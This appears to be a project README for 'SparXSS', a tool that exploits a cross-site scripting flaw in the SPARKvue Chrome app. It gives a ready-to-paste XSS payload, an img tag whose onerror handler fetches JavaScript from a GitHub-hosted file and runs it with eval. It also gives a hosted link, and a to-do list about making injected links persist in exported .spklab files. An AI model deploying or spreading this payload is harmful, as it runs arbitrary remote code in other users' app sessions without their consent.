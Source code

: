 ## A Script For Redirection And Custom Javascript Execution For The SPARKvue Chrome App XSS Vulnerability Found By ohonbob

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```
Or make it a clickable link:
```
<a href="https://amukerd.github.io/SparXSS">Click Me!</a>
```

## [Changelog](https://github.com/Amukerd/SparXSS/blob/main/Changelog.md)

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~<br>
- ~~Make the links save without having to manually click the textbox where the script is~~
